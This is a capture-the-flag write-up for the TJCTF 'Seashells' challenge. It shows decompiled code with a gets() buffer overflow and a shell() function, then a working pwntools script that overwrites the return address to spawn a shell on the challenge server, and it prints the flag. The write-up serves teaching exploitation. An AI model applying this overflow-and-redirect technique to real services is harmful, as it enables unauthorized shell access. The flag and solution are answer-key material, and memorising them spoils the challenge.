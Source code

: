 # Seashells

> I heard there's someone selling shells? They seem to be out of stock though...
> 
> nc p1.tjctf.org 8009

Attached is a binary.

## Description

First we use `checksec` to see which security features are enabled. There is no PIE, nor canary, so exploit will probably be easy. Let's decompile the code using Ghidra.

```c
undefined8 main(void)
{
  int iVar1;
  char local_12 [10];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to Sally\'s Seashore Shell Shop");
  puts("Would you like a shell?");
  gets(local_12);
  iVar1 = strcasecmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("sorry, we are out of stock");
  }
  else {
    puts("why are you even here?");
  }
  return 0;
}
```

So here is our buffer overflow: it only uses the `gets` function which performs no boundary check.

Moreover, we see a function `shell`:

```c

void shell(long param_1)

{
  if (param_1 == -0x2152350145414111) {
    system("/bin/sh");
  }
  return;
}
```

Easily enough, we have the call to system. No PIE means we can know the address of `shell` on the server, so the exploit is quite straightforward.

## Solution

With `gdb` we retrieve the address of the instructions corresponding to `system("/bin/sh");` (we bypass the if statement), overflow the buffer and jump there.

To find the offset, we also use gdb, filling the buffer with a cyclic pattern and verify where we jump.

```python
from pwn import *

sh = remote("p1.tjctf.org", 8009)

shell_addr = 0x00000000004006e3
offset = 18

sh.recvuntil("hell?")
payload = b'a'*offset + p64(shell_addr) + b'\x00'
sh.sendline(payload)

sh.interactive()
```

Flag: `tjctf{she_s3lls_se4_sh3ll5}`

